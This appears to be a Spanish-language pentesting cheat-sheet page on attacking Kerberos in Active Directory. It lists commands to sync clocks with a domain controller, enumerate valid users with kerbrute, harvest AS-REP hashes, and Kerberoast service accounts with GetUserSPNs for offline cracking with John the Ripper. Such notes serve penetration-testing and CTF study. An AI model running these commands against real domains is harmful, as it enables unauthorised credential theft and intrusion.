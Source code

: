 # Kerberos 

Tags: #Kerberos #DC #Windows 

Este es el puerto para Kerberos, que es el protocolo de autenticación predeterminado usado en AD. Kerberos es vital para el proceso de inicio de sesión y la concesión de tickets de acceso.
## Sincronizar el reloj 

```bash 
Nota: Antes de iniciar al ataque debemos de sincronizar el reloj de la maquina de atacante con el AD

❯ ntpdate IP     # Sincronizar el reloj 

	# IP = Dirección IP del DC

❯ date -s "2025-01-04 15:30:00"   # Restablecer la fecha y hora
```

## Kerbrute 

```bash 
❯ git clone https://github.com/ropnop/kerbrute           # Descargar la herramienta
❯ go build .                                             # Entrar al dir 'kerbrute' y compilarlo 
```

```bash 
❯ kerbrute userenum -d domain1.corp --dc IP user.txt   # Enumerar y verificar usuarios validos en el dominio 


Nota: Si el usuario no cuenta con autenticacion previa de Kerberos, la herramienta arroja el TGT (hash) y este se puede crackear offline con 'John The Ripper'
```

```bash 
❯ GetUsersSPNs domain1.corp/user:password            # Verificar si el DC es kerberostable en algún usuario

❯ GetUsersSPNs domain1.corp/user:password -request   # Solicitar un TGS y en offline crackearlo con John 
```